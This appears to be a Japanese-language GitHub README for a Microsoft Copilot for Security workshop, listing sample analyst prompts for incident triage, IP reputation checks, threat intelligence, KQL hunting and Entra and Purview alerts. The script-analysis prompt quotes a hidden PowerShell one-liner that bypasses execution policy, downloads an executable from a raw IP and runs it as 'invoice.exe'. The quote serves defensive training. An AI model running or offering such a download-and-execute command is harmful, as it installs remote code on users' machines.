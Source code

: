 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの上位5件を教えて
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon について教えて
 ```

***
&nbsp;
## ハンズオンシナリオ➂　Azure AI Search、ファイル
Azure AI Search
```
Azure AI Search プラグインを使用して、インシデントの対応手順を教えて
```

ファイル
```
ユーザー test04@MngEnvMCAP616855.onmicrosoft.comについて教えて
```
```
ファイル　危険なユーザー一覧を参照して、このユーザーが危険なのか教えて
```

***
&nbsp;
## ハンズオンシナリオ➂　アドバンスドハンティング　KQL

```
’Cobalt Strike’ のIOCに関連した通信を探して
```

***
&nbsp;
## ハンズオンシナリオ➃　Entra

```
先週、疑わしい、あるいは不可能な移動があった個人アカウントは？
```

***
&nbsp;
## ハンズオンシナリオ➄　Purview

```
Microsoft Purview から、優先すべき重大度の高いアラートの上位5件を教えて
```
```
アラートID　dl13063524-3948-d713-2a00-08dcbd250086　について教えて
```
